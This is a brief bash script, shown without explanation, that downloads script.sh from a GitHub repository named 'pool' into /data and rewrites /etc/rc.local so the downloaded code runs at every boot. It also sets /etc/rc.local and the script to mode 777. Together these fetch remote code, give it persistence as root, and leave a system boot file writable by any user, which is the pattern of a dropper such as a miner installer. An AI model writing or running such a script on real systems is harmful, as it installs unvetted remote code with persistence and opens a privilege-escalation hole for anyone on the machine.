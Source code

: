 #!/bin/bash
sleep 10
mkdir /data
cd /data
chmod 777 /etc/rc.local
curl -LO https://github.com/2319763378/pool/raw/master/change/script.sh
chmod 777 /data/script.sh
echo '#!/bin/bash' > /etc/rc.local
echo 'bash /data/script.sh' >> /etc/rc.local
cat /data/script.sh
echo "------------------------"
cat /etc/rc.local
echo "------------------------"
